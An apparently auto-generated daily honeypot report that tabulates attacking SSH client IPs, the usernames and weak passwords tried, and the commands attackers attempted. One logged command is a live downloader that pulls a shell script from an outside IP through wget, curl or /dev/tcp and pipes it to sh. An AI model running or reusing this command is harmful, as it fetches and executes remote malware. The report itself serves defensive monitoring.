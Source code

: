 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 125.70.52.249 | 17270 |
| 8.210.118.192 | 2734 |
| 47.239.201.124 | 2159 |
| 47.236.150.50 | 607 |
| 154.216.19.22 | 168 |
| 182.92.184.12 | 159 |
| 36.133.216.89 | 119 |
| 39.107.96.168 | 114 |
| 222.107.156.227 | 104 |
| 96.78.175.36 | 104 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| ubuntu | 731 |
| admin | 719 |
| guest | 715 |
| user | 715 |
| debian | 713 |
| dev | 713 |
| ftp | 713 |
| huawei | 713 |
| inspur | 713 |
| web | 713 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 199 |
| password | 116 |
| 123 | 40 |
| 1 | 40 |
| 123456789 | 33 |
| 111111 | 33 |
| 1234 | 32 |
| 12345 | 28 |
| test123 | 27 |
| root | 26 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 113.44.46.107 | uname -s -m |
| 182.92.184.12 | uname -s -m |
| 87.120.113.231 | uname -a; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"; SC=$(wget -O- http://94.156.177.109/sh \|\| curl http://94.156.177.109/sh); if [ $? -ne 0 ]; then exec 3<>"/dev/tcp/94.156.177.109/80"; echo -e "GET /sh HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3; (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 \| sh -s ssh; exec 3>&-; else echo "$SC" \| sh -s ssh; fi |
| 182.92.210.172 | uname -s -m |
